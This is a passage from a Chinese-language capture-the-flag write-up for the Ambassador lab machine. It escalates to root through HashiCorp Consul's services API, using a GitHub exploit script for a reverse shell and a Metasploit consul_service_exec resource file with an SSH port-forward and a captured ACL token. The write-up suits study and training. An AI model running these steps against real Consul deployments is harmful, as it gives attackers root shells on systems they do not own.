 > <https://blog.pentesteracademy.com/hashicorp-consul-remote-command-execution-via-services-api-d709f8ac3960>  
> <https://www.exploit-db.com/exploits/46074>  
> <https://www.rapid7.com/db/modules/exploit/multi/misc/consul_service_exec>

然后这篇文章，大致上知道这个命令能通过API执行任意命令。
> <https://lab.wallarm.com/consul-by-hashicorp-from-infoleak-to-rce>



## flag: root

### 方法一：Github上的exp脚本

在Github上同样搜搜 `consul exploit`，能发现这个：  
> <https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API> 

将脚本传到目标机器，按照说明执行即可获得root的反弹shell。

```bash
root@ambassador:/# cat /root/root.txt
cat /root/root.txt
d5f3…………efdf
```

### 方法二：metasploit+端口转发

补充一下这个方法，因为还挺好奇metasploit方式之前为什么失败了。  

其实在拿root shell阶段时，一开始没想到要在Github上搜，谷歌上翻找半天没发现可以直接利用的。于是姑且也尝试过metasploit，不过失败了。想了一下估计是要弄个端口转发（因为是将payload发送到目标机的127.0.0.1:8500），不过我对端口转发也只是有个大致的概念，还没实际尝试过。所以当时就暂时放弃了，选择继续去寻找exp。（主要是想快点拿flag）  

现在既然这台靶机已经拿下，就打算实践一下端口转发。

首先，建立SSH隧道（对比执行端口转发前后，可以看到本地多了个8500端口的监听）：
```bash
┌──(kali㉿kali)-[~]
└─$ ssh -v -L 8500:127.0.0.1:8500 developer@10.10.11.183

---

┌──(kali㉿kali)-[~]
└─$ netstat -tnoa | grep ":8500"
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ netstat -tnoa | grep ":8500"
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:8500                :::*                    LISTEN      off (0.00/0/0)
```

然后新建文本（msf.txt）写入下面命令：
```bash
use exploit/multi/misc/consul_service_exec
set rhosts 127.0.0.1
set lhost <your attack machine IP>
set lport 4455
set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
run
```
